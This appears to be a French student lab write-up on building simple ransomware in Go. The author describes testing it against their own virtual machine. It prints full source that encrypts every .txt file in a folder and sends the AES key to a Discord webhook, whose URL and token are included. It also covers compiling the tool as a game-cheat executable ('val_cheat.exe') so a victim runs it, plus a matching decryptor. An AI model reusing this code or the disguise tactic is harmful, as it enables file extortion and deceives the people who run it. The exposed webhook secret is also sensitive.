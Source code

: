 ## 1. Créer un serveur discord avec un webhook

J'ai utilisé le même serveur et Webhook que pour les PS précédents.

## 2. Créer le tool de chiffrement des fichiers

Pour le tool, j'ai pris un script en golang que j'ai trouvé sur [github.](https://gist.github.com/donvito/efb2c643b724cf6ff453da84985281f8) Je l'ai modifié pour qu'il s'éxécute dans "C:\Users\benai\hidden-folder\mdp.txt" et que mon webhook envoie la clé de déchiffrement sur mon serveur discord. 

A la fin, le val_cheat.go ressemble à ca:
```
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"io"
	"io/ioutil"
	"net/http"
	"path/filepath"
)

func main() {
	// Générer une clé aléatoire pour AES-256
	bytes := make([]byte, 32) // 32 bytes = 256 bits
	if _, err := rand.Read(bytes); err != nil {
		panic(err.Error())
	}

	// Encoder la clé en string hexadécimale
	key := hex.EncodeToString(bytes)
	fmt.Printf("Clé générée pour le chiffrement : %s\n", key)

	// Envoyer la clé au webhook
	sendKeyToWebhook(key, "https://discord.com/api/webhooks/1317566707765743716/MYkq5CE-sHFAuylm11w7XN0fWfxgU3FN81_xuKtkVH7LKA_kVHT75fy7GKQDV3fDGSzR")

	// Chemin vers le dossier contenant les fichiers .txt
	folderPath := `C:\Users\benai\hidden-folder\`

	// Parcourir tous les fichiers .txt dans le dossier
	files, err := filepath.Glob(filepath.Join(folderPath, "*.txt"))
	if err != nil {
		panic(err)
	}

	// Pour chaque fichier, lire et chiffrer son contenu
	for _, file := range files {
		content, err := ioutil.ReadFile(file)
		if err != nil {
			fmt.Printf("Erreur lors de la lecture du fichier %s: %v\n", file, err)
			continue
		}

		// Chiffrer le contenu du fichier
		encrypted := encrypt(string(content), key)

		// Remplacer le contenu du fichier par la version chiffrée
		err = ioutil.WriteFile(file, []byte(encrypted), 0644)
		if err != nil {
			fmt.Printf("Erreur lors de l'écriture du fichier %s: %v\n", file, err)
			continue
		}

		fmt.Printf("Fichier %s chiffré avec succès.\n", file)
	}
}

// Fonction pour envoyer la clé au webhook Discord
func sendKeyToWebhook(key string, webhookURL string) {
	payload := fmt.Sprintf(`{"content": "Clé générée : %s"}`, key)
	_, err := http.Post(webhookURL, "application/json", bytes.NewBuffer([]byte(payload)))
	if err != nil {
		fmt.Printf("Erreur lors de l'envoi de la clé au webhook : %v\n", err)
	}
}

func encrypt(stringToEncrypt string, keyString string) (encryptedString string) {
	key, _ := hex.DecodeString(keyString)
	plaintext := []byte(stringToEncrypt)

	// Créer un nouveau bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err.Error())
	}

	// Créer un GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nonce
	nonce := make([]byte, aesGCM.NonceSize())
	if _, err = io.ReadFull(rand.Reader, nonce); err != nil {
		panic(err.Error())
	}

	// Chiffrer les données en utilisant aesGCM.Seal
	ciphertext := aesGCM.Seal(nonce, nonce, plaintext, nil)
	return fmt.Sprintf("%x", ciphertext)
}
```
Pour le rendre éxécutable je l'ai converti en .exe pour qu'une fois ouvert sur mon PC victime, il s'exécute lorsque la victime l'ouvre. Je le fais passer par pype.sellan.fr pour le télécharger sur ma VM.


## 3. Envoyer la clef sur discord
Mon fichier de mot de passe ressemblait à ca:

![](mdp.png)


Une fois le val_cheat.exe lancé, mon fichier est entièrement chiffré de cette manière: 

![](chiffré.png)

La clé de déchiffrement m'est envoyée sur discord par mon frérot Nautilus:

![](clé-ds.png)


## 4. Développez le tool de déchiffrement. 

Pour faire le decrypt.go, je me suis basé sur le val_cheat.go:

```
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"encoding/hex"
	"fmt"
	"io/ioutil"
	"path/filepath"
)

func main() {
	// Demander la clé de déchiffrement via le terminal
	var key string
	fmt.Print("Entrez la clé de déchiffrement : ")
	fmt.Scanln(&key)

	// Chemin vers le dossier contenant les fichiers .txt
	folderPath := `C:\Users\paph\Desktop\test`

	// Parcourir tous les fichiers .txt dans le dossier
	files, err := filepath.Glob(filepath.Join(folderPath, "*.txt"))
	if err != nil {
		panic(err)
	}

	// Pour chaque fichier, lire et déchiffrer son contenu
	for _, file := range files {
		content, err := ioutil.ReadFile(file)
		if err != nil {
			fmt.Printf("Erreur lors de la lecture du fichier %s: %v\n", file, err)
			continue
		}

		// Déchiffrer le contenu du fichier
		decrypted := decrypt(string(content), key)

		// Remplacer le contenu du fichier par la version déchiffrée
		err = ioutil.WriteFile(file, []byte(decrypted), 0644)
		if err != nil {
			fmt.Printf("Erreur lors de l'écriture du fichier %s: %v\n", file, err)
			continue
		}

		fmt.Printf("Fichier %s déchiffré avec succès.\n", file)
	}
}

// Fonction pour déchiffrer les données
func decrypt(encryptedString string, keyString string) string {
	key, _ := hex.DecodeString(keyString)
	ciphertext, _ := hex.DecodeString(encryptedString)

	// Créer un bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err)
	}

	// Créer un GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err)
	}

	// Extraire le nonce
	nonceSize := aesGCM.NonceSize()
	nonce, ciphertext := ciphertext[:nonceSize], ciphertext[nonceSize:]

	// Déchiffrer les données
	plaintext, err := aesGCM.Open(nil, nonce, ciphertext, nil)
	if err != nil {
		panic(err)
	}

	return string(plaintext)
}
```


Je le converti en decrypt.exe et je l'éxécute sur mon PC victime, j'y entre la clé de déchiffrement:
![](decrypt.png)

Je réouvre mon mdp.txt et mes mots de passe ont été déchiffrés
![](mdp-decrypt.png)
